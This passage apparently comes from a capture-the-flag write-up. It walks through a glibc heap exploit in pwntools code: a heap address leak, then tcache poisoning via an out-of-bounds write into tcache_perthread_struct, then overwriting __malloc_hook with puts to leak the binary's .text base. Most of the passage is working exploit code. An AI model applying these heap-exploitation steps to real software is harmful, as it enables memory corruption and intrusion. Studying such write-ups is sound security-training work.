 ```py
create(0x98) # 1 
create(0x98) # 2

create(0x98) # 3
create(0x98) # 4

free(4)
free(3)
create(0x98) # 3
read_flag(3)

p.recvline()
p.recvline()
heap = u64(p.recv(6).ljust(8, b'\x00')) - (0x555555a02470 - 0x555555a01000)
print("[i] Heap:", hex(heap))
```
Now, knowing the heap base address and thanks to the OOB (Out-of-Bounds) write, I perform a Tcache poisoning by overwriting the next chunk pointer of one chunk to point to *tcache_perthread_struct*. This struct contains pointers to the head of each tcache bin and also keeps a count of the number of chunks in the tcache for each size.  
This allows me to place an arbitrary pointer in the tcache that I want to be allocated later. I use it to place a pointer to __malloc_hook.  
```py
create(0x98) # 4

free(4)
free(3)
free(2)

payload  = p64(0) * 19
payload += p64(0xa1)
payload += p64(heap + 0x10)

write(1, payload)

create(0x98) # 2
create(0x98) # 3

payload  = p64(0) 
payload += p64(5)
payload  = p64(6) * 16
payload += p64(libc.sym.__malloc_hook)

write(3, payload)
```
Now I can allocate a chunk that overlaps with the malloc hook. I point the malloc hook to puts and use it to obtain a leak of an address from the .text section of the binary. To do this, I simply allocate a new chunk, and then malloc will call puts. When calling the malloc hook, RDI contains the size argument, and since we control the size, we control RDI.  
```py
create(0x98) # 4 Overlaps malloc_hook

text_ptr = libc.address + (0x7ffff7beadb0 - 0x7ffff7800000)
write(4, p64(libc.sym.puts))

free(1)

text_ptr = libc.address + (0x7ffff7beadb0 - 0x7ffff7800000)
create(text_ptr) # 4

p.recvline()
text_base = u64(p.recv(6).ljust(8, b'\x00')) - (0x555555603040 - 0x555555400000)
print("[i] .text:", hex(text_base))
```